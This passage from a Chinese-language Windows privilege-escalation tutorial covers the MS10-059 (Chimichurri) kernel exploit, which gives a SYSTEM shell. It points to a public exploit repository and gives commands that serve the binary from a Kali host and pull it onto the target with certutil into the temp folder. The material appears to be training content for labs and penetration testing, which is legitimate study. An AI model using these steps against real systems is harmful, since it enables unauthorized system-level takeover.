 接下来将看到一系列潜在的漏洞利用。这里黑客比较感兴趣的是MS10-059，也称为Chimichurri。这个漏洞利用将允许黑客以系统帐户身份生成一个shell。

![图片](./在Windows系统下提权的8种主要姿势.assets/640-1715064791963-17.webp)

从这个地址：https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS10-059下载可执行文件, 请确保下载的内容以及脚本或漏洞利用的功能, 否则在真实的环境中使用可能会造成严重的后果。

下载完成后，在Kali中以与下载的漏洞利用相同的文件夹启动Python服务器。使用以下命令：

```
python3 -m http.server
```

返回到Windows机器上，进入临时文件夹，并使用certutil下载漏洞利用。

```
certutil -urlcache -f http://10.10.14.10:8000/MS10-059.exe exploit.exe
```

临时文件夹是下载脚本、工具和漏洞利用的好地方，因为它通常具有所需的写入和执行权限。

![图片](./在Windows系统下提权的8种主要姿势.assets/640-1715064791963-18.webp)
